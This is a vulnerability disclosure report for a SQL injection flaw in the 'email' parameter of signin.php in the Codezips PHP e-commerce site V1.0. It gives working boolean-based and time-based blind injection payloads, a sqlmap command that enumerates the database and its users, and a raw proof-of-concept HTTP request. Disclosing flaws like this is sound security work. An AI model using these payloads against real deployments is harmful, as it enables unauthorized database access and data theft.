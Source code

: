 # Codezips E-commerce Site Using PHP With Source Code V1.0 signin.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- E-commerce Site Using PHP With Source Code

## Vendor Homepage

- https://codezips.com/php/e-commerce-site-using-php-with-source-code/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- zhangjiale

## Vulnerable File

- signin.php

## VERSION(S)

- V1.0

## Software Link

- https://codeload.github.com/codezips/ecommerce-site-using-php/zip/master

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'signin.php' file of  the 'E-commerce Site Using PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter  'email' and use it directly in SQL queries without the need for  appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized  operations.

  <img src="./image/2.png" style="zoom:150%;" />

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "E-commerce Site Using PHP With Source Code", zhangjiale  discovered a critical SQL injection vulnerability in the "signin.php" file. This vulnerability stems from insufficient  user input validation of the 'email' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information. Immediate remedial measures are needed to ensure  system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability lonameion:

- 'email' parameter

## Payload:

```
Parameter: email (POST)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
Payload: first_name=qqqq&last_name=qqqqq&email=123@qqd.com' RLIKE (SELECT (CASE WHEN (7267=7267) THEN 0x313233407171642e636f6d ELSE 0x28 END))-- OhTM&mobile=2123&signupaddress=123&password=123&signup=Sign Me Up!

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: first_name=qqqq&last_name=qqqqq&email=123@qqd.com' AND (SELECT 6045 FROM (SELECT(SLEEP(5)))btFz)-- ItEg&mobile=2123&signupaddress=123&password=123&signup=Sign Me Up!
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py  -r url.txt -p email --current-db --current-user --is-dba
```

```
poc
POST /signin.php HTTP/1.1
Host: 192.168.75.224
Content-Length: 115
Cache-Control: max-age=0
Origin: http://192.168.75.224
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.75.224/signin.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=86k42l8aso8tibk6verjr20gc5
Connection: close

first_name=qqqq&last_name=qqqqq&email=123%40qqd.com&mobile=2123&signupaddress=123&password=123&signup=Sign+Me+Up%21
```

<img src="./image/1.png" style="zoom:150%;" />